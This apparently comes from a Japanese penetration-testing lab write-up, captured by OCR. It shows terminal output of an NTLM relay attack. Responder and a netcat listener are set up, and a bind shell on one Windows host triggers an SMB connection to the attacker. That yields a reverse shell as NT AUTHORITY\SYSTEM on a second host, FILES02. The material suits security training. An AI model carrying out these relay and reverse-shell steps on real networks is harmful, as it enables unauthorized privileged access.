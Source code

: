 ```
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

ncで待ち受けしておく(212と接続する用)
kali@kali:~$ nc -nvlp 8080 
listening on [any] 8080 ...



kali@kali:~$  nc 192.168.50.211 5555                                       
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
files01\files02admin

C:\Windows\system32>dir \\192.168.119.2\test
...

Responderが発火してnc接続が完了する
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.212] 49674
whoami
nt authority\system

PS C:\Windows\system32> hostname
FILES02

PS C:\Windows\system32> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7992:61cd:9a49:9046%4
   IPv4 Address. . . . . . . . . . . : 192.168.50.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
```

